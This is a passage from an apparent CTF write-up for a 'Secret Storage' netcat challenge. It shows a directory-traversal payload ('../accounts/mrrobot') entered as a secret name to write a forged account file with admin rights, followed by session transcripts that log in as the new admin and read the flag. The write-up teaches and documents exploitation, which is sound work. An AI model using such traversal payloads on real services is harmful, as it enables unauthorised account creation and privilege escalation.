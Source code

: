 Since we can reuse that directory traversal trick, we can go up one directory,
down the accounts directory and create a file of our choosing. We can leverage
this to store a secret with the contents `1:password` and a controlled filename
to create our admin user. The attack looks like this:

```console
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1340
Secret Storage 1.0
You are not logged in. Please choose one option:
1. Log in
2. Create Account
1
Please enter your name: elliot
Please enter your password: alderson
Success!
Welcome elliot!
1. Retrieve secret
2. Store secret
3. Read admin secret
2
What is the name of the secret you want to store: ../accounts/mrrobot
What secret would you like to store: 1:mrrobot
Secret written!
Welcome elliot!
1. Retrieve secret
2. Store secret
3. Read admin secret
^C
elliot@ctf101-shell:~/ctf101$
```

Now, we can log in with our new admin account and read the admin secret:

```console
elliot@ctf101-shell:~/ctf101$ nc pwn.spro.ink 1340
Secret Storage 1.0
You are not logged in. Please choose one option:
1. Log in
2. Create Account
1
Please enter your name: mrrobot
Please enter your password: mrrobot
Success!
Welcome mrrobot!
1. Retrieve secret
2. Store secret
3. Read admin secret
3
Here is the admin's secret: ctf101{1ts_3am_1_w4nt_m4cd0nalds}

Welcome mrrobot!
1. Retrieve secret
2. Store secret
3. Read admin secret
```
